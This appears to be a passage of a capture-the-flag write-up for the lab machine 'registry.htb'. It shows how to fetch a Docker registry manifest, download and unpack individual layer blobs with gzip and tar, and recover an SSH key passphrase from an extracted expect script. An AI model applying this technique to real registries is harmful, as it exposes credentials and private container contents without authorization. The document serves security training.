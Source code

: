 # Alternative way to exploit Registry

## Extracting files from Docker image file

Instead of login into the Docker registry, the image file can be downloaded and contains blob names that can be downloaded individually.

Pulling the image:
```
GET /v2/bolt-image/manifests/latest
```

Blob names in the image file:
```
(...)
"fsLayers": [
      {
         "blobSum": "sha256:302bfcb3f10c386a25a58913917257bd2fe772127e36645192fa35e4c6b3c66b"
      },
      {
         "blobSum": "sha256:3f12770883a63c833eab7652242d55a95aea6e2ecd09e21c29d7d7b354f3d4ee"
      },
      {
         "blobSum": "sha256:02666a14e1b55276ecb9812747cb1a95b78056f1d202b087d71096ca0b58c98c"
      },
      {
         "blobSum": "sha256:c71b0b975ab8204bb66f2b659fa3d568f2d164a620159fc9f9f185d958c352a7"
      },
      {
         "blobSum": "sha256:2931a8b44e495489fdbe2bccd7232e99b182034206067a364553841a1f06f791"
      },
      {
         "blobSum": "sha256:a3ed95caeb02ffe68cdd9fd84406680ae93d633cb16422d00e8a7c22955b46d4"
      },
      {
         "blobSum": "sha256:f5029279ec1223b70f2cbb2682ab360e1837a2ea59a8d7ff64b38e9eab5fb8c0"
      },
      {
         "blobSum": "sha256:d9af21273955749bb8250c7a883fcce21647b54f5a685d237bc6b920a2ebad1a"
      },
      {
         "blobSum": "sha256:8882c27f669ef315fc231f272965cd5ee8507c0f376855d6f9c012aae0224797"
      },
      {
         "blobSum": "sha256:f476d66f540886e2bb4d9c8cc8c0f8915bca7d387e536957796ea6c2f8e7dfff"
      }
  ],
(...)
```

Downloading one blob:
```
http://docker.registry.htb/v2/bolt-image/blobs/sha256:302bfcb3f10c386a25a58913917257bd2fe772127e36645192fa35e4c6b3c66b
```

The command `file` identifies the file as _gzip compressed data_:
Decompressing _gzip_ file:
```
gzip -d sha256-302bfcb3f10c386a25a58913917257bd2fe772127e36645192fa35e4c6b3c66b.gz
```

The command `file` identifies the decompressed file as a _tar archive_.
Decompressing _tar_ file:
```
tar -xvf sha256-302bfcb3f10c386a25a58913917257bd2fe772127e36645192fa35e4c6b3c66b.tar
```

It extracts one file:
```
etc/profile.d/01-ssh.sh
```

This file is a bash script that contains a password for a SSH key from _bolt_:
```
#!/usr/bin/expect -f
#eval `ssh-agent -s`
spawn ssh-add /root/.ssh/id_rsa
expect "Enter passphrase for /root/.ssh/id_rsa:"
send "GkOcz221Ftb3ugog\n";
expect "Identity added: /root/.ssh/id_rsa (/root/.ssh/id_rsa)"
interact
```

This method can be done with every blob to get different directories and files from the container.
